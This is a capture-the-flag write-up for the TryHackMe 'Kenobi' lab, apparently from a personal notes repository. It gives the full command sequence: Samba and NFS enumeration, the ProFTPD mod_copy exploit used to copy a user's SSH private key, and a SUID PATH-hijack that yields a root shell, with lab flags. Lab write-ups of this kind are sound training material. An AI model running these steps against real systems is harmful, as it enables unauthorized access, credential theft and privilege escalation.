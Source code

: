 # Kenobi

```bash
export IP=10.10.63.26
```


## Scans

### Nmap
Command:
```bash
nmap -vv -sC -sV -oN scans/nmap.initial $IP
```

Open Ports found:
```
21 -- ftp
22 -- ssh
80 -- webpage
111 -- RPC -- Remote Procedure Call
139 -- smb
445 --smb
2049
```

/robots.txt
```
User-agent: *
Disallow: /admin.html
```
IT'S A TRAP


### Samba

**Samba** allows users to acces and use files, printers, and other commonly shared resources over the internet.
It is often referred to as a *network file system*.

Samba is based on the **SMB** protocol -- Server Message Block

This script scans for samba shares
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.63.26
```

found 3 shares, most importantly: `anonymous`

this connects to the samba client with the `anonymous` user, similar to the `ftp` command
```bash
smbclient //$IP/anonymous
```

found `log.txt` file inside shares

this command downloads the available shares, similar to `wget`
```bash
smbget -R smb://$IP/anonymous
```

`log.txt` shows that an id_rsa key for user `kenobi` exists

this nmap script enumerates port 111's file system, to show available mount points
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.63.26
```

found `/var` as available


### Gobuster
```bash
gobuster dir -u 10.10.63.26 -w /opt/directory-list-2.3-medium.txt
```

Found Directories:
```
/server-status -- 403
```

nothing useful


## Initial Access with ProFtpd

* **ProFtpd** is a free/open-source FTP server, compatible with Unix and Windows. It has shown vulnerabilities in past versions.

    - This machine is running proftpd v/1.3.5, vulnerable to the mod_copy module exploit

    - the mod_copy module implements the commands `SITE CPFR` and `SITE CPTO` to copy files/directories across a server

netcatting into the macine and using the mod_copy module to copy `kenobi`'s id_rsa
```bash
nc 10.10.63.26 21

SITE CPFR /home/kenobi/.ssh/id_rsa

SITE CPTO /var/tmp/id_rsa
```

mounting directory to our local machine
```bash
mkdir /mnt/kenobiNFS
sudo mount 10.10.64.26:/var /mnt/kenobiNFS
```

after copying id_rsa, remember to set file permission
```bash
chmod 600 id_rsa
```


## SSH into Machine
```bash
ssh -i id_rsa kenobi@10.10.63.26
```

**User Flag Found:** `d0b0f3f53b6caa532a83915e19224899`


## Privilege Escalation with Path Variable Manipulation

using the `find` command to look for files with elevated privileges
```bash
find / -perm -u=s -type f 2>/dev/null
```

and seeing `/usr/bin/menu` which runs the `curl` and `uname` command without a full path

PrivEsc Command:
```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

because we copied the /bin/sh shell, named it `curl`, and gave it the correct file permission/path...
running the `/usr/bin/menu`, and calling the `curl` binary would call our new shell instead

and since the file is being run as root, selecting option `1` gives a root shell

**Root Flag Found**: `177b3cd8562289f37382721c28381f02`

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)

